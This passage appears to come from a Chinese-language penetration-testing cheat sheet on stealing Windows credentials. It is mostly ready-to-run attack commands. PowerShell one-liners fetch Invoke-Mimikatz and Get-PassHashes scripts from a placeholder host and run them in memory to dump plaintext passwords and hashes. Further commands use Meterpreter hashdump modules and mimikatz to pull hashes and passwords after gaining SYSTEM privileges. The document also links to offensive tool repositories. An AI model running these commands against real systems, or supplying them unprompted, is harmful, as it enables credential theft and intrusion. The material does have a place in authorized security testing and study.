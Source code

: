 关闭

```plaintext
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
```

2.PowerShell 版本

[Invoke-Mimikatz.ps1 版 1](https://github.com/Mr-xn/Penetration_Testing_POC/blob/master/tools/Invoke-Mimikatz.ps1)、[Invoke-Mimikatz.ps1 版 2](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1) 获取明文密码

```powershell
powershell IEX(New-Object Net.WebClient).DownloadString('http://HOST/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds
```

[Get-PassHashes.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1) 获取 Hash

```powershell
powershell IEX(New-Object Net.WebClient).DownloadString("http://HOST/Get-PassHashes.ps1");Get-PassHashes
```

3.Meterpreter 运行 Mimikatz

Meterpreter 获取 Hash，前提要拿到 SYSTEM 权限 `getuid`。

```plaintext
use post/windows/gather/hashdump
set session 1
exploit
```

```plaintext
use post/windows/gather/smart_hashdump
set session 1
exploit
```

使用 Mimikatz

```plaintext
// 加载 mimikatz
load mimikatz

// 获取 hash 1
wdigest
kerberos
msv
ssp
tspkg
livessp

// 查询模块使用
mimikatz_command -h

// 查询有哪些模块
mimikatz_command -f::

// 获取 hash 2
mimikatz_command -f samdump::hashes // 获取 hash
mimikatz_command -f sekurlsa:searchPasswords // 获取明文
mimikatz_command -f samdum:bootkey
```
